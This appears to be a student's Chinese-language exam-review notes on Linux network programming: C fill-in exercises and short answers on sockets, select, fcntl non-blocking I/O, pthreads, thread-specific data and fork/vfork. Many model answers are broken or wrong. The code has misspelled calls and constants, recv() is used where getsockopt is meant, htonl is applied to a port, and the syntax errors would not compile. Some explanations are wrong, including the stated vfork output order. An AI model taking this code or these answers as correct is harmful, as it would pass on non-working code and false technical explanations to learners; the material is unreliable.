the main tid is 123456.
thread 234567 enter.the key's 0 .
thread 234567 key's 234567.
destructor exected in thread 234567, param = 234567.
main thread exit.
#+END_SRC


*** 6.
补全代码

#+BEGIN_SRC c
  #include <stdio.h>
  #include <sys/time.h>
  #include <sys/types.h>
  #include <unistd.h>

  int main(void) {
      fd_set rfds;
      struct timeval tv;
      int retval;
      char temp[100];
      //补全代码
      FD_ZERO(&rfds);
      FD_SET(0,&rfds);
      //在上空缺处补全两行代码
      tv.tv_sec = 5;
      tv.tv_usec = 0;
      //
      retval = select(1, &rfds, NULL, NULL, &tv);
      //在上空缺处补全一行代码
      if(FD_ISSET(0, &rfds)){ //括号中补全代码
          fget(temp, 100, stdin);
          printf("Data is avaliable now.\n");
      }
      else {
          printf("No data arrive.\n");
          exit(0);
      }

  }

#+END_SRC


*** 7.
补全代码

#+BEGIN_SRC c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

void *thread_function(void *arg) {
    int i;
    for (i = 0; i < 2; i++) {
        printf("Thread says hi!.\n");
        sleep(1);
    }
    return NULL;
}

int main(void) {
    pthread_t childthread;
    printf("main thread enter.\n");
    if (pthread_create(&childthread, NULL, thread_function, NULL)) { //补全括号内,创建子线程,线程id保存在childthread中,线程函数为thread_function
        printf("error creating thread.\n");
        exit(1);
    }
    if (pthread_join(childthread, NULL)) { // 括号内补全代码,等待子线程chrildthread结束,获得释放子线程状态信息
        printf("error joining thread.\n");
        exit(1);
    }
    printf("main thread exit.\n");
    exit(0);
}
#+END_SRC

程序运行正常写出结果
#+BEGIN_SRC
main thread enter.
Thread says hi.
Thread says hi.
main thread exit.
#+END_SRC


*** 8.
写出下面函数的作用
#+BEGIN_SRC c
int flag
//(1)
flags = fcntl(fileno(stdin), F_GETFL, 0);

//(2)
flags |= O_NONBLOCK;
//(3)
fcntl(fileno(stdin), F_SETFL, flags);
#+END_SRC

(1)
#+BEGIN_SRC
获取标准输入的文件描述符
#+END_SRC

(2)
#+BEGIN_SRC
将flags增加非阻塞模式
#+END_SRC

(3)
#+BEGIN_SRC
重新设置标准输入的文件描述符为flags 即变为非阻塞模式
#+END_SRC


*** 9.
下面是UDP服务端程序
#+BEGIN_SRC c
  int sockfd;
  struct sockaddr_in server, client;
  int sin_size, num;
  char msg[MAXDATASIZE];
  //然后省略了完成套接字创建和绑定
  while(1) {
      //第一行接受客户端数据,保存在msg缓冲区中
      recvfrom(sockfd, msg, MAXDATASIZE, 0, (struct sockaddr *)&client, &(sizeof(client)))
      //第二行,打印客户端端口号
      printf("You got a massage from client.port is %d.\n", htonl(client.sin_port));
      //
  }
#+END_SRC


*** 10.
TCP服务端
#+BEGIN_SRC c
  struct sockaddr_in servaddr, cliaddr;
  socklen_t len;
  int sockfd1, sockfd2;
  //省略套接字创建和绑定和监听
  //获得客户端连接请求
  connfd = accept(listenfd, (struct sockaddr*)&cliaddr, &len)
  //
  if(connfd == -1) {
      //省略出错处理
  }
  //打印已连接客户端IP地址
  printf("You got a message from client.IP is %s", inet_ntoa(cliaddr.sin_addr));
  //
#+END_SRC


*** 11.
#+BEGIN_SRC c
  #include <sys/socket.h>
  #include <stdio.h>

  int main(void) {
      int sockfd;
      //省略套接子创建,创建的套接字保存在sockfd中
      int opt = 1;
      //重用本地地址
      setsockopt(sockfd, SOL_SOCKET, SO_REUESADDR, &opt, sizeof(opt));
      //获得套接字接受缓冲区大小,保存到opt中
      opt = recv(sockfd, recvbuf, MAXDATASIZE, 0)
      //打印输出缓冲区大小
      print("The size of buf is %d", opt);
      //
      fflush(stdout);
      close(listenfd);
  }
#+END_SRC


*** 12.
原始套接字
#+BEGIN_SRC c
  //省略头文件
  int main(int argc, char **argv) {
      int sockfd;
      int on;
      on = 1;
      //构造IPv4,UDP的原始套接字保存在sockfd
      sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_UDP);
      //设置套接字IP_HDRINCL选项,由用户填写网络协议层头部
      setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on));
      //
      close(sockfd);
      return 0;
  }
#+END_SRC


*** 13.
UDP客户端
#+BEGIN_SRC c
  //省略头文件
  #define PORT 1234
  int main(int arg, char *argv[]) {
      int fd, numbytes;
      char buf[MAXDATASIZE];
      struct hostent *he;
      struct sockaddr_in server, reply;
      if (argc != 3) {
          printf("Usage: %s <IP address> <Message>\n", argv[0]);
          exit(1);
      }
      if (he = gethostbyname(argv[1]) == NULL) {
          perror("gethostbyname error.\n");
          exit(1);
      }
      //省略创建UDP套接字,创建套接字保存在fd

      bzero(&server, sizeof(server));
      server.sin_family =  AF_INET;//补全
      server.sin_port = htons(PORT);//
      server.sin_addr = htonl(INADDR_ANY);//
      //一行代码,完成客户端向服务端发送数据
      sendto(fd, argv[2], strlen(argv[2]), 0, (struct sockaddr *)&server, sizeof(server))
      //
      close(fd);
      return 0;
  }
#+END_SRC

简述gethostbyname 函数功能,并指出当参数为点分十进制字符串时如何操作
#+BEGIN_SRC
该函数如果执行成功就返回一个指向结构hostent的指针,如果失败返回空指针

如果是点分十进制的值,函数不会执行查询操作,返回结构体中h_name是该参数的拷贝,h_addr_list[0]就是该参数对应的整形网络字节序(相当与inet_pton(AF_INET*, name, dst))
#+END_SRC


*** 14.
#+BEGIN_SRC c
  //省略头文件
  int main(void) {
      pid_t result = fork();
      if(result == -1) {
          perror("fork");
          exit;
      }
      else if(result == 0) {
          sleep(3);
          printf("child.\n");
          exit(0);
      }
      else {
          wait(result);
          printf("parent.\n");
          exit;
      }
  }
#+END_SRC

(1) 假如程序不出错执行,请写出程序的执行结果
#+BEGIN_SRC
child.
parent.
#+END_SRC

(2) 简述TCP的多进程并发服务器,服务器的编程流程
#+BEGIN_SRC
1. 创建套接字
2. 设置套接字
3. bind套接字
4. listen套接字
5. accpet套接字
6. fork()
7. 父进程关闭已连接套接字,子进程关闭监听套接字
8. 子进程处理,父进程继续监听
9. 子进程完成后退出
#+END_SRC



*** 15.
假如,主线程id号是12345678,子线程child_tid1的线程id号是987654321,子线程child_tid2的线程id是87654321
#+BEGIN_SRC c
  #include <stdio.h>
  #include <pthread.h>

  pthread_key_t key;
  pthread_once_t once = PTHREAD_ONCE_INIT;
  static void printfun(void) {
      printf("enter printf function.\n");
  }

  void echomsg(int t) {
      printf("destructor excuted in thread %d, param = %d.\n", pthread_self(), t);
  }

  void *childfun1(void *arg){
      pthread_once(&once, printfun);
  }

  void *childfun2(void *arg) {
      pthread_once(&once, printfun);
      int tid = pthread_self();
      printf("thread %d enter.\n", tid);
      printf("the key's %d.\n", pthread_getspecific(key));
      pthread_setspecific(key, (void *)tid);
      sleep(2);
      printf("thread2 %d key's %d.\n", tid, pthread_getspecific(key));
      sleep(5);
  }

  int main(void) {
      pthread_t child_tid1, child_tid2;
      printf("the main tid is %d\n", pthread_self());
      //创建TSD关键字,key指向创建的关键字,echomsg为析构函数
      pthread_key_create(&key, (void *)echomsg);
      //
      pthread_create(&child_tid1, NULL, childfun1, NULL);
      pthread_join(child_tid1, NULL);
      pthread_create(&child_tid2, NULL, childfun2, NULL);
      sleep(10);
      pthread_join(child_tid2, NULL);
      pthread_key_delete(key);
      return 0;
  }
#+END_SRC

(1)运行结果是

#+BEGIN_SRC c
the main tid is 12345678
enter printf function.
thread 87654321 enter.
the key's 0
thread2 87654321 key's 87654321
destructor excuted in thread 87654321, param = 87654321.
#+END_SRC

程序实例运行结果:
#+BEGIN_SRC c
the main tid is -1875171584
enter printf function.
thread -1883236608 enter.
the key's 0.
thread2 -1883236608 key's -1883236608.
destructor excuted in thread -1883236608, param = -1883236608.
#+END_SRC


(2)解释pthread_create(&child_tid1, NULL, childfun1, NULL);完成的功能并解释各个函数的意思
#+BEGIN_SRC
创建一个子线程,将子线程tid返回到child_tid1,并使用系统默认属性, 执行childfun1,不传入参数
#+END_SRC


*** 16.

#+BEGIN_SRC c
  //省略头
  int main(void)
  {
      char buf[20];
      int num, flags;
      flags = fcntl(0, F_GETFL, 0);
      // 加入非阻塞标志
      flags |= O_NONBLOCK;
      //
      if(fcntl(0, F_SETFL, flags) == 1) {
          perror("fcntl");
          exit(1);
      }
      while(1) {
          num = read(0, buf, 20);
          if(errno == EWOULDBLOCK){
              perror("read:");
              write(1, "try again.\n", strlen("try again.\n"));
          }
          write(1, buf, num);
      }
      return 0;
  }

#+END_SRC

(1) 解释程序中flags = fcntl(0, F_GETFL, 0);语句完成的功能
#+BEGIN_SRC
获得0号描述符的文件描述符的标志,并赋值给flags
#+END_SRC

(2) 根据程序上下文, 完成空缺

(3) 解释程序fcntl(0, F_SETFL, flags);语句玩完成的功能
#+BEGIN_SRC
将新的文件描述符标志flags设置给0号描述符
#+END_SRC

(4) 判断该I/O模型是同步I/O还是异步I/O
#+BEGIN_SRC
同步I/O
#+END_SRC



*** TODO 17.
解释下列语句完成的功能

(1) signal(SIGIO, ioaction)


(2) fcntl(sockfd, F_SETOWN, getpid()));

(3) ioctl(sockfd, FIOASYNC, &on); //已知on为整形 且on = 1


*** 18.
谈话程序

#+BEGIN_SRC c
  fd_set infds;

  for(;;) {
      //重置句柄集
      FD_ZERO(&infds);
      //把标准输入置入句柄集
      FD_SET(fileno(stdin), &infds);
      //把socket置入句柄集
      FD_SET(sockfd, &infds);
      //
      maxfd = max(fileno(stdin), sockfd) + 1;
      if (select(maxfd, &infds, NULL, NULL, NULL) == -1){
          //错误处理
      }
      if (FD_ISSET(sockfd, &infds)){ // 测试socket是否可读
          //读socket
      }
      if (FD_ISSET(fileno(stdin), &infds)) { //测试标准输入是否可读
          //读标准输入
      }
  }
#+END_SRC


*** 19.

非阻塞I/O的实现可以通过fcntl()来改变句柄(或描述符)的标志来实现
将句柄sockfd 设置为非阻塞的代码是

#+BEGIN_SRC c
  int flags;
  // 读句柄当前标志
  flags = fcntl(sockfd, F_GETFL, 0);
  // 加入非阻塞标志
  flags |= O_NONBLOCK;
  // 设置带有非阻塞的新标志
  fcntl(sockfd, F_SETFL, flags);
  //
#+END_SRC


*** 20.
gethostname 函数,该函数返回的是当前主机的名字,根据下面的程序进行填空

#+BEGIN_SRC c
  #include <unistd.h>

  int main(){
      char buf[100];
      size_t namelen;
      namelen = sizeof(buf);
      // 调用 gethostname函数
      gethostname(buf, namelen)
      //
      printf("host name is %s.\n", buf/*参数*/ ); // 补全输出 主机的名字
  }
#+END_SRC


*** TODO 21.
信号驱动I/O的实现,要通过信号驱动方式对多个句柄进行复用,要通过如下几个步骤

- 将这些描述


信号驱动I/O的实现，要通过信号驱动方式对多个句柄进行复用，要通过如下几个步骤：
将这些句柄（描述符）的属主都设为一个进程。将这些句柄（描述符）的标志位O_ASYNC打开，让句柄（描述符）发生I/O时间时发送SIGIO信号。
在属主进程中设置对SIGIO信号的处理。当有I/O时间在任何一个句柄（描述符）上发生时，系统都会向进程发送SIGIO信号。
进程在对SIGIO的中断处理中再查询各个句柄（描述符）状态，进行相应的处理。
根据以上描述完成下面的程序填空。

#+BEGIN_SRC c
void ioaction(int signo) /*定义信号处理程序*/
{...}
int main (){
    stdinfd = fileno(stdin);
    //指定信号处理程序

    //句柄（描述符）所有者为i当前进程

    //
    int on  = 1;
    iocatl(sockfd, FIOASYNC, &on); /*sockfd 发生I/O事件时发送SIGIO信号*/
    for (;;){
        n = read(stdinfd, msg, BUFLEN);/*可能阻塞*/
    }
}

#+END_SRC


运行结果：


*** 22.
#+BEGIN_SRC c
int main (void){
    pid_t pid;
    int status;
    if((pid = fork()) == 0){
        sleep(2);
        printf("child running.\n");
        printf("child sleeping.\n");
        sleep(5);
        printf("child Dead.\n");
        exit(0);
    }else if (pid > 0){
        printf("parent running.\n");
        printf("parent exit\n");
        exit(0);
    }else {
        printf("fork error.\n");
        exit(1);
    }
}

#+END_SRC
运行结果是:

#+BEGIN_SRC
parent running.
parent exit.
child running.
child sleeping
child dead.
#+END_SRC


*** 23.
#+BEGIN_SRC c
#include <sys/types.h>
#include <unistd.h>

int main (void){
    pid_t pid;
    int status;
    if ((pid = vfork()) == 0){
        sleep(2);
        printf("child running.\n");
        printf("child sleeping.\n");
        sleep(5);
        printf("child dead.\n");
        exit(0);
    }else if (pid > 0){
        printf("parent running.\n");
        printf("parent exit.\n");
        exit(0);
    }else {
        printf("fork error.\n");
        exit(0);
    }
}

#+END_SRC

运行结果：

#+BEGIN_SRC
parent running.
parent exit.
child running.
child sleeping
child dead.
#+END_SRC


*** 24.

#+BEGIN_SRC c
#include <pthread.h>
#include <stdio.h>

pthread_once_t once = PTHREAD_ONCE_INIT;
void once_run (void){
    printf("once_run in thread %d \n", pthread_self());
}
void *child (void *arg){
    int tid = pthread_self();
    printf("thread %d enter\n", tid);
    pthread_once (&once, once_run);
    printf("thread %d returns\n", tid);
}
void *child2 (void *arg){
    int tid = pthread_self();
    printf("thread %d enter\n", tid);
    pthread_once (&once, once_run);
    printf("thread %d returns\n", tid);
}

int main (void){
    int tid1, tid2;
    printf("hello\n");
    pthread_create(&tid1, NULL, child1, NULL);
    pthread_create(&tid2, NULL, child2, NULL);
    sleep(10);
    printf("main thread exit\n");
    return 0;
}
#+END_SRC

运行结果：
#+BEGIN_SRC
hello
thread 1 enter
once_run in thread 1
thread 1 returns
thread 2 enter
thread 2 returns
main thread exit
#+END_SRC


*** 25.
#+BEGIN_SRC c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int myglobal;
pthread_mutex_t mymutex = PTHREAD_MUTEX_INITIALIZER;
void *thread_function(void *arg){
    int i, j;
    for (i = 0; i < 6; i++){
        pthread_mutex_lock(&mymutex);
        j = myglobal;
        j += 1;
        printf(".");
        fflush(stdout);
        sleep(1);
        myglobal = j;
        pthread_mutex_unlock(&mymutex);
    }
    return NULL;
}

int main (void){
    pthread_t mythread;
    int i;
    if (pthread_create(&mythread, NULL, thread_function, NULL)){
        printf("error creating thread.");
        abort();
    }
    for (i = 0; i < 6; i++){
        pthread_mutex_lock(&mymutex);
        myglobal += 1;
        pthread_mutex_unlock(&mymutex);
        printf("F");
        fflush(stdout);
        sleep(1);
    }
    if (pthread_join (mythread, NULL)){
        printf("error joining thread.");
        abort();
    }
    print("\n myglobal equals %d\n", myglobal);
    exit(0);
}

#+END_SRC
运行结果：
#+BEGIN_SRC
反正是6个F6个.
myglobal equals 12
#+END_SRC


*** 26.
#+BEGIN_SRC c

int main (int argc, const char **argv){
    ulong_t addr;
    struct hostent *hp;
    char **p;
    if (argc != 2){
        print("usage: %s IP-address\n", argv[0]);
        exit(1);
    }
    if((addr = inet_addr(argv[1])) == -1){
        printf("IP-address must be of the form a.b.c.d\n");
        exit(1);
    }
    hp = gethostbyaddr((char *)&addr, sizeof(addr), AF_INET);
    if (hp == NULL){
        printf("host information for %s not found\n", argv[1]);
        exit(1);
    }
    for (p = hp->h_addr_list; *p !-= 0; p++){
        struct in_addr in;
        char **q;
        memcpy(&in.s_addr, *p, sizeof(sizeof(in.s_addr));
        printf("%s\t%s",inet_ntoa(in), hp -> h_name);
        for (q = hp->h_aliases; *q != 0; q++){
            printf("%s", *q);
            exit(0);
        }
    }
    return 0;
}
#+END_SRC


执行 ./b 127.0.0.1 命令后，运行结果如下：
#+BEGIN_SRC
127.0.0.1     localhost
#+END_SRC


** 问答题

*** 1.
请说明给新线程传递参数方法有那些?这些方法的优缺点是什么?

#+BEGIN_SRC c
  //传递参数的普通方法
  //封装在一个结构体中
  void *start_routine(void *arg);
  struct ARG {
      int connfd;
      int other;
  }
      int main() {
          struct ARG *arg;
          …
              While(1){
              if((connfd = accept(sockfd,NULL,NULL))== -1){
                  …
                      }
              arg.connfd = connfd;
              pthread_create(&tid, NULL, start_routine, (void *)&arg);
              …
                  }
      }
  void *start_routine(void *arg) {
      ARG info;
      info.connfd = ((ARG *)arg) -> connfd;
      info.other = ((ARG *)arg) -> other;
      …}
  //优点:
  //缺点:对一个客户可以工作,多个客户则出现问题

  //通过指针传递参数

  void *start_routine(void *arg);

  void *start_routine(void *arg) {
      int connfd;
      connfd = (int)arg;
  }

  int main(void) {
      int connfd;
      //
      pthread_create(&tid, NULL, start_routine, (void *)connfd);
      //
  }

  //优点:简单
  //缺点:arg类型必须能被正确的转换成通用指针,而且能传递的参数只有一个



  //通过分配arg的空间来传递参数
  //主线程首先为每个新线程分配arg的空间,再将arg传递给新线程使用,新线程使用完释放该空间
  void *start_routine(void *arg);
  int main(void) {
      struct ARG * arg;
      int connfd;
      …
          loop {
          …
              if((connfd = accept(sockfd,NULL,NULL))== -1){
                  …
                      }
          arg = new ARG;
          arg -> connfd = connfd;
          pthread_create(&tid, NULL, start_routine, (void *)arg);
          …
              }
  }
  void *start_routine(void *arg) {
      struct ARG info;
      info.connfd = ((ARG *)arg) ->connfd;
      …
          /*handle client*/
          delete arg;
  }
  //优点:
  //缺点:浪费空间


  通过加锁等同步设施来实现传递参数

  pthread_mutex_lock(pthread_mutex_t  *mptr);

  /* 返回：成功0，否则返回错误码 */
  /* mptr：指向互斥锁的指针。 */
  /* 该函数接受一个指向互斥锁的指针作为参数并将其锁定。如果互斥锁已经被锁定，调用者将进入睡眠状态。函数返回时，将唤醒调用者。 */
  /* 如果互斥锁是静态分配的，就将mptr初始化为常值PTHREAD_MUTEX_INITIALIZER。  */

  pthread_mutex_unlock(pthread_mutex_t  *mptr);
  //用于互斥锁解锁操作。

  /* 返回：成功0，否则返回错误码 */
#+END_SRC


*** 2.

请分别说明下列线程专用数据(TSD, thread specific data)相关函数的作用是什么?

#+BEGIN_SRC c
int pthread_key_create(pthread_key_t *key, void(* destructor)(void *value));
int pthread_setspecific(pthread_key_t key, const void *value);
void *pthread_getspecific(pthread_key_t key);
int pthread_key_delete(pthread_key_t key);
#+END_SRC

答案:

#+BEGIN_SRC
pthread_key_create 函数
在进程内部分配一个TSD的关键字.参数key指向创建的关键字,该关键字对于一个进程中的所有线程是唯一的.
每个进程只能调用一次.在可以创建之前都是NULL.一旦被创建,每个线程都能为该线程绑定一个值
参数destructor是一个可选析构函数在线程推出时,析构函数被调用

pthread_setspecific 函数
为TSD关键字绑定一个与本线程相关的值key是TSD关键字, value是本线程相关的值

pthread_getspecific 函数
获得调用线程相关的TSD关键字绑定的值 key是TSD关键字

pthread_key_delete 函数
清除线程相关TSD关键字绑定的值, key是TSD关键字
#+END_SRC


*** 3.
请比较信号驱动I/O模式与非阻塞I/O模式.并说明如何在程序中将套接口设置为非阻塞I/O模式

#+BEGIN_SRC
信号驱动I/O在未准备好时则一直等待,直到准备好,发送一个SIGIO信号量给信号处理程序再调用recvfrom拷贝数据 阻塞于数据拷贝到进程期间

非阻塞I/O则是在未准备好期间一直调用recvfrom直到返回成功 则拷贝数据

设置方式

flags = fcntl(0, F_GETFL, 0);
flags |= O_NONBLOCK;
fcntl(0, F_SETFL, flags);

#+END_SRC


*** 4.
请写出select()函数实现I/O多路复用的步骤

#+BEGIN_SRC c
  int rdfs;

  struct timeval tv;
  tv.tv_sec = 0;
  tv.tv_usec = 0;

  FD_ZERO(&rdfs);
  FD_SET(fileno(stdin), &rdfs);
  FD_SET(sockfd, &rdfs);
  maxfd = max(fileno(stdin), sockfd) + 1;
  //fileno(stdin)获得标准输入描述符
  retval = select(maxfd, &rdfs, NULL, NULL, &tv);
  if(FD_ISSET(sockfd, &rdfs)){
      //读socket
  }

  if(FD_ISSET(fileno(stdin), &rdfs)){
      //读stdin
  }
#+END_SRC


*** 5.
请简述TCP和UDP协议的网络通信调用bind()和connect()函数的作用分别是什么
#+BEGIN_SRC
TCP:
bind: 为socket函数产生的套接字分配一个本地协议地址,建立地址与套接字对应关系
connect: 客户端,配置套接字,建立TCP服务器连接(激发三次握手)

UDP
bind: 为socket函数产生的套接字分配一个本地协议地址,建立地址与套接字对应关系
connect: 为套接字绑定通信IP地址和端口号,需要使用read和write来与对方通信
#+END_SRC


*** 6.
请简述网络编程中设计并发服务器,使用多进程和多线程请问有什么区别

#+BEGIN_SRC
多线程服务器创建速度快,占用资源少,但是共享相同内存空间,产生同步问题,一个线程崩溃,会影响其他线程
多进程进程之间相互独立,单个进程崩溃不影响其他进程稳定性高,占用资源多

#+END_SRC

| 对比          | 多进程       | 多线程               |
| 数据共享,同步 | 数据共享复杂 | 线程共享数据         |
| 内存CPU       | 占用资源多   | 内存占用少           |
| 创建销毁切换  | 复杂         | 简单                 |
| 编程调试      | 简单         | 复杂                 |
| 可靠性        | 可靠         | 一个挂掉整个进程挂掉 |
| 分布式        |              |                      |


*** 7.
如何创建一个线程?写一段程序说明(要求对相关函数和参数作出说明)

#+BEGIN_SRC
//线程执行函数
void *func(){
}
//线程id
pid_t pid;
//线程创建函数
pthread_create(&pid, NULL, func, NULL)
#+END_SRC


*** 8.
请简述在linux系统中阻塞I/O和非阻塞I/O两种模型的异同点

#+BEGIN_SRC
阻塞: 在调用函数之前,函数没有接受或没有得到结果之前不返回
非阻塞: 在调用函数之前,函数立即返回,通过select通知调用者
阻塞I/O和非阻塞I/O的区别: 应用程序的调用是否立即返回
相同点都阻塞在拷贝数据的时候
#+END_SRC


*** 9.
请简述用TCP套接字建立服务端和客户端的基本步骤,写出每步调用的函数
#+BEGIN_SRC
服务端
1.创建套接字 socket()
2.设置套接字 sockaddr_in
3.绑定套接字 bind()
4.监听套接字 listen()
5.接受套接字 accept()
6.处理      read/write/recv/send
7.关闭套接字 close()

客户端
1.创建套接字 socket()
2.设置套接字 sockaddr_in
3.连接套接字 connect()
4.处理      read/wirte/recv/send
5.关闭套接字 close


#+END_SRC


*** 10.
UDP套接字程序中调用connect()函数和不调用该函数的区别是?
#+BEGIN_SRC
调用了该函数后套接字变成已连接套接字
再也不能给输出操作指定目的IP端口号
不能用recvfrom函数接受数据而要用read和recv
异步错误由已连接的UDP套接字返回给进程
#+END_SRC


*** 11.
请创建一个访问ICMP的原始套接字,并简述原始套接字可以提供的TCP/UDP套接字一般不提供的功能

#+BEGIN_SRC c
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);

原始套接字允许对较低层次的协议如IP,ICMP直接访问,用户可以自定义包头,用于检验新的协议的实现
#+END_SRC


*** 12.
请简述用TCP套接字建立多进程并发服务器的基本步骤,并写出每步调用的函数
#+BEGIN_SRC
1. 创建套接字 socket()
2. 设置套接字 sockaddr_in
3. 绑定套接字 bind()
4. 监听套接字 listen()
5. 接受套接字 accept()
6. 创建子进程 fork()
7. 父进程关闭已连接套接字,子进程关闭监听套接字 close()

#+END_SRC


*** 13.
请给出设置套接字SO_RCVBUF选项的作用，并说明该选项时针对那一层协议进行设置，并具体说明在服务器和客户端设置该选项时，至少在调用什么函数之前进行设置及理由。
#+BEGIN_SRC
设置 接受缓冲区大小 TCP
调用bind前进行设置
bind函数作用,为套接字绑定本地协议端口,建立与本地协议的联系
#+END_SRC


*** 14.
非阻塞I/O是linux下可用的I/O模型之一，请以recvfrom函数为例说明该模型下系统I/O的工作模式。
#+BEGIN_SRC

系统不断调用 recvfrom 检查数据报是否准备好,
未准备好返回EWOULDBLOCK,
直到返回成功,
recvfrom开始拷贝数据,
阻塞于拷贝数据
#+END_SRC


*** 15.
请简述accept()函数调用成功后，返回的值。
#+BEGIN_SRC
可以获得三个值
一个是accept函数返回值,已连接套接字描述符
由clinet参数返回客户端协议地址,包括IP地址,端口号
由addrlen返回客户端地址结构大小

#+END_SRC


*** 16.
请创建一个访问ICMP的原始套接字，并简述原始套接字可以提供的TCP/UDP套接字一般不提供的功能。

#+BEGIN_SRC c
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);

原始套接字允许对较低层次的协议如IP,ICMP直接访问,用户可以自定义包头,用于检验新的协议的实现
#+END_SRC


*** 17.
请简述用TCP套接字建立多线程并发服务器的基本步骤，并写出每步调用的函数。
#+BEGIN_SRC
1. 创建套接字 socket()
2. 设置套接字 sockaddr_in
3. 绑定套接字 bind()
4. 监听套接字 listen()
5. 接受套接字 accept()
6. 创建线程   pthread_create()
7. 父线程关闭接受套接字, 子线程关闭监听套接字
8. 关闭套接字  close()
#+END_SRC


*** 18.
简述select()和pselect()函数的区别。
#+BEGIN_SRC
第一点    select函数用的timeout参数，是一个timeval的结构体（包含秒和微秒），然而pselect用的是一个timespec结构体（包含秒和纳秒）

第二点    select函数可能会为了指示还剩多长时间而更新timeout参数，然而pselect不会改变timeout参数

第三点    select函数没有sigmask参数，当pselect的sigmask参数为null时，两者行为时一致的。
有sigmask的时候，pselect相当于如下的select()函数，在进入select()函数之前手动将信号的掩码改变，并保存之前的掩码值；
select()函数执行之后，再恢复为之前的信号掩码值。


sigset_t origmask;


sigprocmask(SIG_SETMASK, &sigmask, &origmask);


select(nfds, &readfds, &writefds, &exceptfds, timeout);


sigprocmask(SIG_SETMASK, &origmask, NULL);
#+END_SRC


*** 19.
基于TCP协议的套接字服务器程序中，会产生两种套接字描述符，简述这两种套接字描述符分别是什么？分别由什么函数创建？以及这两种描述符各自的作用。
#+BEGIN_SRC
socket()创建的监听描述符,和accept()创建的已连接描述符.
监听描述符用来监听一个端口,当有一个客户与服务器连接时,它使用这个端口号,而此时这个端口号正于这个套接字关联.
已连接描述符默认会阻塞进程,直到有一个客户连接后返回,它返回的是一个新可用的套接字,这个套接字是连接套接字
#+END_SRC


*** 20.
设置套接字选项时，请指出SO_RCVBUF选项所在的层(网络协议中的那一层)？并 具体说明在服务器和客户端设置该选项时，必须在调用哪一网络编程函数之前进行设置及理由。
#+BEGIN_SRC
设置 接受缓冲区大小 TCP
调用bind前进行设置
bind函数作用,为套接字绑定本地协议端口,建立与本地协议的联系
#+END_SRC


*** 21.
简述基于TCP的多线程并发服务器，服务器程序的编程流程。


*** 22.
简述5种I/O模型分别是哪5种I/O模型
#+BEGIN_SRC
信号驱动I/O
阻塞I/O
非阻塞I/O
I/O复用
异步I/O
#+END_SRC


*** 23.
请简述fork和vfork的区别和联系
#+BEGIN_SRC
fork 创建的子进程是父进程的副本 (copy on write)
vfork 创建的子进程是父进程的共享存储空间和地址空间 保证子进程先运行
相同:都是创建新进程,调用一次返回两次,父进程返回子进程id,子进程返回0
#+END_SRC


*** 24.
在多进程程序设计时，产生新的子进程后，父进程要关闭连接套接字，而子进程要关闭监听套接字，具体原因是什么。
#+BEGIN_SRC
父进程要继续保持监听,关闭连接套接字是父进程不需要处理请求,只负责建立连接后把连接套接字交给子进程处理
子进程只负责处理,关闭多余的描述符,防止父子进程对共享描述符进行操作,产生不可预计的后果
#+END_SRC


*** 25.
请简述套接字SO_REUSEADDR选项的作用
#+BEGIN_SRC
允许端口复用
#+END_SRC
